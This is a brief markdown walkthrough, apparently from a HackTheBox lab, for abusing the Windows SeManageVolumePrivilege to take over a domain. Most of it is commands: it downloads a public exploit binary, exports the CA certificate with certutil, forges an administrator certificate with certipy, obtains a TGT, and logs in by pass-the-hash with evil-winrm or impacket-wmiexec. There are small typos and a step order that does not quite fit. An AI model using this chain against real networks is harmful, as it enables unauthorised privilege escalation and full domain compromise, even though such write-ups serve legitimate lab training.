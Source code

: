 # SeManageVolumePrivilege
SeManageVolumePrivilege (Display name: "Perform volume maintenance tasks") is a Windows privilege that allows a user to perform administrative-level operations on storage volumes without needing full Administrator access.

Think of it as being the "storage system administrator" - you can't change user permissions or install software, but you have master keys to work with the hard drives and file systems at a very low level.

# steps
1. Download the Exploit Binary and upload it
2. Create a temp directoty.
3. Export the Certificate and Download it
4. After perform a forge ticket attack
5. Get the TGT and login it

# Download it
```language
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
upload SeManageVolumeExploit.exe
```
# Make a directory and Execute the exe
```language
.\SeManageVolumeExploit.exe

mkdir C:\tmp
```
# Export certificate and Download 
```language
certutil -exportPFX my "Certificate-LTD-CA" C:\tmp\get.pfx

download get.pfx
```
# Forge ticket 
```language
certipy forge -ca-pfx input.pfx -upn administrator@$domain -subject "<admin OU>" -out out.pfx

for Example:-
certipy forge -ca-pfx get.pfx -upn administrator@$certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out out.pfx
```
# Get the TGT
```language
certipy auth -pfx out.pfx -dc-ip $ip  
```
# login it
```language
evil-winrm -i $ip -u "administrator" -H $hash

rlwarp impacket-wmiexec domain/user@<ip> -hashes :<hash>
```
